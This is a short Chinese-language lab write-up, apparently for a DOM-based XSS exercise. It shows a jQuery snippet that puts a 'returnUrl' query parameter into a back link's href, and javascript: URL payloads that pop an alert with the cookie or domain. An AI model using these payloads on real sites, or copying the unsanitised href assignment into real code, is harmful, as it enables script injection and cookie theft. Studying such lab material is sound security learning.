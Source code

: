 在提交反馈页面

url中输入随机字符发现，字符出现在页面的href属性中。



payload:

```javascript
?returnPath=javascript:alert(document.cookie)
```

此时页面中出现的url中输入的参数

![](images/A0BDBFFD81894F4F95BD0B1F4313BDB4clipboard.png)

点击即可触发弹框。



# 解释：

这里使用jquery库

获取url中的参数更改锚元素

例子：

```javascript
$(function(){
$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

可以通过修改URL来利用此漏洞，以使location.search源包含恶意JavaScript URL。页面的JavaScript将此恶意URL应用于反向链接的后href，单击反向链接将执行该恶意URL ：

?returnUrl=javascript:alert(document.domain)